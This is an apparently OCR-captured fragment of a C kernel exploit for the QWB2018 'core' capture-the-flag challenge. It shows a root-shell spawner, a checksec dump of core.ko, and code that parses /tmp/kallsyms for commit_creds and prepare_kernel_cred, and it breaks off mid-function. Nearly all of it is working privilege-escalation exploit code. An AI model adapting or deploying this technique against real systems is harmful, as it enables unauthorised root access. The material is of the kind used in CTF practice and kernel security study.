 最终 exp
```C
QWB2018_core [master●●] cat exploit.c 
// gcc exploit.c -static -masm=intel -g -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

void spawn_shell()
{
	if(!getuid())
	{
		system("/bin/sh");
	}
	else
	{
		puts("[*]spawn shell error!");
	}
	exit(0);
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
/* 
 * give_to_player [master●●] check ./core.ko
   ./core.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=549436d
   [*] '/home/m4x/pwn_repo/QWB2018_core/give_to_player/core.ko'
       Arch:     amd64-64-little
       RELRO:    No RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      No PIE (0x0)
*/
size_t vmlinux_base = 0;
size_t find_symbols()
{
	FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");
	/* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */

	if(kallsyms_fd < 0)
	{
		puts("[*]open kallsyms error!");
		exit(0);
	}

	char buf[0x30] = {0};
	while(fgets(buf, 0x30, kallsyms_fd))
	{
		if(commit_creds & prepare_kernel_cred)
			return 0;

		if(strstr(buf, "commit_creds") && !commit_creds)
		{
			/* puts(buf); */
			char hex[20] = {0};
			strncpy(hex, buf, 16);
			/* printf("hex: %s\n", hex); */
			sscanf(hex, "%llx", &commit_creds);
			printf("commit_creds addr: %p\n", commit_creds);
```
